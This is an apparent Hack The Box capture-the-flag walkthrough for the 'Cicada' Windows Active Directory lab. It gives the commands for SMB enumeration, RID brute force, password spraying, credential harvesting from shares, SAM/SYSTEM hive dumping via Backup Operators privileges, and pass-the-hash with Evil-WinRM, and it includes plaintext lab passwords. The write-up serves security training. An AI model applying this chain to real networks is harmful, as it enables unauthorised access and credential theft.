 # HTB - Cicada

**IP Address:** `10.10.11.35`  
**OS:** Windows Server 2022  
**Difficulty:** Medium  
**Tags:** #SMB, #Kerberos, #RIDBruteForce, #WinRM, #PrivilegeEscalation, #BackupOperators, #HiveDumping

---

## 1. Port Scanning

### 1.1 Nmap

Initial scan revealed a typical Active Directory environment:

```bash
nmap -p- --open 10.10.11.35
```

Filtered scan on relevant ports:

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,63646 10.10.11.35
```

---

## 2. SMB and Domain Enumeration

### 2.1 Identify Host

```bash
netexec smb 10.10.11.35
```

Revealed domain: `cicada.htb`  
Host: `Windows Server 2022 Build 20348`

---

## 3. User Enumeration Attempts

### 3.1 Kerbrute (🛑 Ineffective)

```bash
kerbrute userenum --dc 10.10.11.35 -d cicada.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

Only found `administrator` and `guest`.

---

## 4. SMB Share Discovery

```bash
smbclient -L 10.10.11.35 -N
netexec smb 10.10.11.35 -u guest -p '' --shares
```

Found share: `HR`

Inspected HR share:

```bash
smbmap -H 10.10.11.35 -u guest -p '' -r HR
```

Discovered:

```text
Notice_from_HR.txt → Cicada$M6Corpb*@Lp#nZp!8
```

---

## 5. User Discovery via RID Brute Force

Used RID brute-force to extract usernames:

```bash
netexec smb 10.10.11.35 -u guest -p '' --rid-brute | grep 'SidTypeUser'
```

Cleaned output with `tr`, `awk`, and `sponge` to create `users.txt`.

Validated users via:

```bash
kerbrute userenum --dc 10.10.11.35 -d cicada.htb users.txt
```

---

## 6. Credential Spraying

Tested the leaked password against all users:

```bash
netexec smb 10.10.11.35 -u users.txt -p credentials.txt
```

✅ Valid for `michael.wrightson`

---

## 7. Michael Wrightson Access

WinRM: ❌ Not available  
SMB Shares:

```bash
netexec smb 10.10.11.35 -u 'michael.wrightson' -p credentials.txt --shares
```

Found: `NETLOGON`, `SYSVOL`

Checked user descriptions:

```bash
netexec smb 10.10.11.35 -u 'michael.wrightson' -p credentials.txt --users
```

Found password in `david.orelious` description:  
**`aRt$Lp#7t*VQ!3`**

---

## 8. David Orelious Access

✅ SMB login successful  
WinRM: ❌  
New share accessible: `DEV`

```bash
smbmap -H 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' -r DEV
```

Found: `Backup_script.ps1`  
Extracted with `smbclient`

Found credentials:

- User: `emily.oscars`
- Password: `Q!3@Lp#M6b*7t*Vt`

---

## 9. Emily Oscars Access

✅ WinRM access confirmed:

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

🏁 **User flag obtained**

---

## 10. Privilege Escalation

Emily is a member of **Backup Operators** and has `SeBackupPrivilege`.

### 10.1 Dump Hive Files

On victim:

```powershell
reg save hklm\sam c:\temp\sam.hive
reg save hklm\system c:\temp\system.hive
```

Downloaded with:

```bash
download sam.hive
download system.hive
```

---

## 11. Extract Administrator Hash

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

Used hash with Evil-WinRM:

```bash
evil-winrm -i 10.10.11.35 -u 'Administrator' -H <NTLM_HASH>
```

🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
